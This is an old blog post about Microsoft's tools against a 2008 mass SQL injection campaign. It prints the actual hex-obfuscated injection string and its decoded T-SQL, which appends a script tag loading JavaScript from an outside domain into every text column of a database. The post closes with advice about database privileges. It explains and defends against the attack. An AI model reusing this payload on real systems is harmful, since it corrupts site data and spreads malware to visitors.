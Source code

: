 ```yaml
---
title: Microsoft Has Released Tools To Address SQL Injection Attacks
author: SQLDenis
type: post
date: 2008-06-25T11:37:29+00:00
ID: 74
url: /index.php/webdev/webdesigngraphicsstyling/microsoft-has-released-tools-to-address/
views:
  - 5242
rp4wp_auto_linked:
  - 1
categories:
  - Classic ASP
  - Microsoft IIS
  - Web Design, Graphics and Styling

---
```

Microsoft has released 3 tools that deal with the recent SQL injection attack.
  
These three tools include [HP Scrawlr][1] , [UrlScan][2] version 3.0 Beta , and a [SQL Source Code Analysis Tool][3]. Microsoft further recommends following the best practices found within security advisory [954462][4]. 

Most of the sites affected had this submitted as part of the injection 

```sql
DECLARE%20@S%20VARCHAR(4000);SET%20@S=CAST(0x4445434C415 245204054205641524348415228323535292C40432056415243
4841522832353529204445434C415245205461626C655 F437572736F7220435552534F5220464F522053454C45435420612E6 E616D652C622E6E616D652046524F4D207379736F626A65637473206 12C737973636F6C756D6E73206220574845524520612E69643D622E6 96420414E4420612E78747970653D27752720414E442028622E78747 970653D3939204F5220622E78747970653D3335204F5220622E78747 970653D323331204F5220622E78747970653D31363729204F50454E2 05461626C655F437572736F72204645544348204E4558542046524F4 D205461626C655F437572736F7220494E544F2040542C40432057484 94C4528404046455443485F5354415455533D302920424547494E204 55845432827555044415445205B272B40542B275D20534554205B272 B40432B275D3D525452494D28434F4E5645525428564152434841522 834303030292C5B272B40432B275D29292B27273C736372697074207 372633D687474703A2F2F7777772E63686B626E722E636F6D2F622E6 A733E3C2F7363726970743E27272729204645544348204E455854204 6524F4D205461626C655F437572736F7220494E544F2040542C40432 0454E4420434C4F5345205461626C655F437572736F72204445414C4 C4F43415445205461626C655F437572736F7220%20AS%20VARCHAR(4000));EXEC(@S);
```

This is of course done so that you can't see the real SQL and then you can't check for DROP, UPDATE and other DDL and DML commands 

So what does this look like when you replace %20 with a space and exec with print?

```
DECLARE Table_Cursor 
CURSOR FOR SELECT a.name,b.name FROM sysobjects a,syscolumns b 
WHERE a.id=b.id AND a.xtype='u' AND (b.xtype=99 OR b.xtype=35 OR b.xtype=231 OR b.xtype=167) OPEN Table_Cursor 
FETCH NEXT FROM Table_Cursor INTO @T,@C 
WHILE(@@FETCH_STATUS=0) 
BEGIN 
EXEC('UPDATE ['+@T+'] SET ['+@C+']=RTRIM(CONVERT(VARCHAR(4000),['+@C+']))+''<script src=http://www.chkbnr.com/b.js></script>''')
 FETCH NEXT FROM Table_Cursor INTO @T,@C 
END CLOSE Table_Cursor DEALLOCATE Table_Cursor  
```

Somehow I think this could have been written set based 🙂

The problem is of course that you should never ever run as dbo or even worse sa.

 [1]: http://www.communities.hp.com/securitysoftware/blogs/spilabs/archive/2008/06/23/finding-sql-injection-with-scrawlr.aspx
 [2]: http://learn.iis.net/page.aspx/473/using-urlscan
 [3]: http://support.microsoft.com/kb/954476
 [4]: http://www.microsoft.com/technet/security/advisory/954462.mspx